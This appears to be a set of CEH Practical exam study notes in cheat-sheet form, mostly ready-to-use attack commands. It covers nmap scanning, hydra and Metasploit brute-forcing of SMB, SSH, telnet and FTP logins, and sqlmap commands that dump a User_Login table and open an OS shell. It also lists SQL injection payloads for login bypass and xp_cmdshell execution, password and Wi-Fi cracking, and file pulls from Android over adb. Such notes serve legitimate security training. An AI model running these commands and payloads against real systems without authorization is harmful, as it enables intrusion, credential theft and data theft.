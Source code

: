 ===== Scanning =====

netdiscover -r x.x.x.1/24
nmap -sP x.x.x.1/24                 
nmap -sn x.x.x.1/24
nmap -p 389 -T4 -A -v --script ldap-rootdse nnn.nnn.nnn.nnn/nn
nmap --script ftp-brute -p 21 <host>
Nmap -Pn -p 3389 target > rdp  // grep -B 5 open rdp
Nmap -Pn -p 3306 target > mysql // grep -B 5 open mysql


==== Crack SMB credentials ====

1) hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb

2) Metasploit

For Cracking SMB Password:
•	we need to make folder -> store wordlist into that -> run msf from that folder | This process makes your work even better and smooth.
•	>msfconsole .
•	>use auxiliary/scanner/smb/smb_login
•	>show option | To get an idea of what to set on
•	>set PASS_FILE ./ROKYOU.TXT
•	>set rhost {target IP address} | notes :- rhost means remote host
•	>set SMBUser name [of the user] | (generally Administrator is username)
•	>run

=== Bruteforce SSH, TELNET, FTP  ===

hydra -l username -P passlist.txt x.x.x.x ssh
hydra -l admin -P passlist.txt -o test.txt x.x.x.x telnet

hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x

•	If the service isn't running on the default port, use -s
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x -s 221

	
•	Used to download the specific file from FTP to attacker or local machine
get flag.txt ~/Desktop/filepath/flag.txt


==== Vulnerability Scanning ====

1) Nessus

Nessus runs on https[:]//localhost[:]8834

2) nikto -h 

===== Hidden text ====

1) snow -C -p "magic" readme2.txt

2) steghide 

==== WIRESHARK ====



To find DOS (SYN and ACK) : 
•	tcp.flags.syn == 1 , tcp.flags.syn == 1 and tcp.flags.ack == 0

To find Wireshark DOS attack:
•	statistic -> IPv4 statistic -> source and destination address

View Flood attack on victim via Wireshark 
•	| use filter tcp.port=21


https://www.comparitech.com/net-admin/wireshark-cheat-sheet/

====== SQL ======

SQLMAP Extract DBS
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs

Extract Tables
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables

Extract Columns
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns

Dump Data
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump

OS Shell to execute commands
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell

Login bypass
•	blah' or 1=1 --

Insert data into DB from login
•	blah';insert into login values ('john','apple123');

Create database from login
•	blah';create database mydatabase;

Execute cmd from login
•	blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --


=== PASSWORD CRACKING ===

john --single --format=md5crypt crack.txt

=== WIFI ENCYRPTION CRACKING ===

aircrack-ng -w rockyou.txt capture-01.cap


=== VERACRYPT ===


=== CUSTOM WORDLIST ===

=== MOBILE ===

ADB
To Install ADB
apt-get update
sudo apt-get install adb -y
adb devices -l
Connection Establish Steps
adb connect x.x.x.x:5555
adb devices -l
adb shell  
To navigate
pwd
ls
cd Download
ls
cd sdcard
Download a File from Android using ADB tool
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop

== resources ==

https://github.com/nirangadh/ceh-practical/blob/main/module03-Scanning-Networks.txt
https://github.com/Samson-DVS/CEH-Practical-Notes/tree/main

